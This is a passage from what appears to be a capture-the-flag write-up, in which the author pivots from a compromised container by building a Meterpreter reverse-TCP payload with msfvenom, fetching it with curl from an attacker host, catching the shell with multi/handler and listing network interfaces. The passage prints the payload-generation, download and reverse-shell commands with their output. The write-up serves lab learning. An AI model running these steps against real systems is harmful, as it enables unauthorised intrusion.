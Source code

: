 Database credentials written in plain text in code are a serious vulnerability, but I don't think they're useful in this case. So I focused on the network interfaces, the machine belongs to three subnets. Anyway, on the machine there were not installed usefull tool or commands, so to better inspect the subnets I started a meterpreter session.

To do this I created a payload with `msfvenom`.
```
$ msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=10.9.15.73 LPORT=4444 -f elf > shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 1137112 bytes
Final size of elf file: 1137112 bytes
```

I uploaded the payload the payload on the machine through a python server opened on attacker machine and curl command to downlaod it on the target machine. After that I started a listener using `exploit/multi/handler` metasploit module.
```
www-data@b823de5b84e0:/tmp$ curl -X GET http://10.9.15.73:8787/shell > shell
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1110k  100 1110k    0     0   450k      0  0:00:02  0:00:02 --:--:--  450k
```

As soon as I downloaded the elf, I gave it execute permissions and launched it. After a few moments I got connected to a meterpreter shell.

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.15.73:4444 
[*] Meterpreter session 3 opened (10.9.15.73:4444 -> 10.10.103.161:45790) at 2023-10-05 09:24:22 +0200

meterpreter > 
```

Finally I was able to use the ifconfig command and inspect the three network interfaces.
```
meterpreter > ifconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 14
============
Name         : eth0
Hardware MAC : 02:42:0a:ff:00:04
MTU          : 1450
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.255.0.4
IPv4 Netmask : 255.255.0.0


Interface 16
============
Name         : eth2
Hardware MAC : 02:42:ac:12:00:03
MTU          : 1500
```
